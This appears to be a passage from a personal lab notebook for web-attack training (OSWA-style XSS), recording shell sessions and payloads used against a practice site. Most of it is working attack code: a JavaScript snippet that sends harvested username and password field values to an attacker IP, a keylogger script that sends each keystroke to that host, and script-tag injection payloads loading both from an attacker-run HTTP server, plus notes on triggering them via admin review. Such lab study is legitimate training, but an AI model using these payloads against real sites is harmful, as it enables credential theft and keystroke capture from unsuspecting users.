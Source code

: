 ```bASH
body.append(u)
body.append(p)

setTimeout(function(){ 
    fetch("http://192.168.61.62:80/k?u=" + u.value + "&p=" + p.value)
}, 5000);
                 
┌──(root💀gobots)-[05Aug2024 20:49:27]-[/home/kali/SUT/OSWA/xss]
└─# python3 -m http.server 80 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
Payload
```bash
<script src="http://192.168.49.61:80/savedpasswords.js"></script>
```

![[Pasted image 20250106104101.png]]
- we are able to report our own `note` to send it under review - which i believe it will be getting reviewed by an admin? - maybe keylogging
- after sending a report for our note we get a `200` additional error maybe prompting a reaction
![[Pasted image 20250106105057.png]]
- and the review got reset to not under review anymore
![[Pasted image 20250106105132.png]]

###### Payload 4 - `KEYLOGGING`
```bash
┌──(root💀gobots)-[05Aug2024 19:14:45]-[/home/kali/SUT/OSWA/xss]
└─# vim keylogging.js

# Make sure to change the IP address
┌──(root💀gobots)-[05Aug2024 19:15:09]-[/home/kali/SUT/OSWA/xss]
└─# cat keylogging.js 
function logKey(event){
        fetch("http://192.168.61.62/k?key=" + event.key)
}

document.addEventListener('keydown', logKey);

┌──(root💀gobots)-[05Aug2024 19:15:50]-[/home/kali/SUT/OSWA/xss]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```
In the search option on the website drop the payload and hit search
payload
```bash
<script src="http://192.168.49.61:80/keylogging.js"></script>
```

--------
- Going to resend all my payloads and report them all to see if i can trigger any hits
